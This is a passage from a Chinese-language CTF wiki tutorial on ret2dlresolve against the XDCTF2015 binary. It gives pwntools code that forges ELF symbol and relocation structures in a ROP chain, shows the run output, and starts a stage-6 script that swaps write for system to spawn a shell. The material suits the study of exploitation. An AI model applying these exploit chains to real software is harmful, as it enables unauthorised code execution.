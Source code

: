 ```python
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('write\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage5.py      
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 129249
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 6

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
```
